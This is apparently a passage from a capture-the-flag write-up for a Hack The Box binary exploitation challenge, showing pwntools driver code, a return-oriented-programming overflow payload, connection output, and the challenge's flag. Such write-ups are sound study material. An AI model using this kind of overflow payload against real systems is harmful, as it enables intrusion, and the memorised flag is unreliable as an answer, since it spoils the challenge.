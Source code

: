 ```python
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_rocket_blaster(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_rocket_blaster(proc)

def main():
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()
```

Final output with flag ! :)
```python
Trying payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAd\x11@\x00\x00\x00\x00\x00\x9f\x15@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\x9d\x15@\x00\x00\x00\x00\x00\xbe\xba\xad\xde\x00\x00\x00\x00\x9b\x15@\x00\x00\x00\x00\x007\x13\xad\xde\x00\x00\x00\x00\xf5\x12@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (140B)
[*] Closed connection to 94.237.49.121 port 48759

Preparing beta testing..
[✓] [✓] [✓]

All Placements are set correctly!

Ready to launch at: HTB{b00m_b00m_r0ck3t_2_th3_m00n}
```

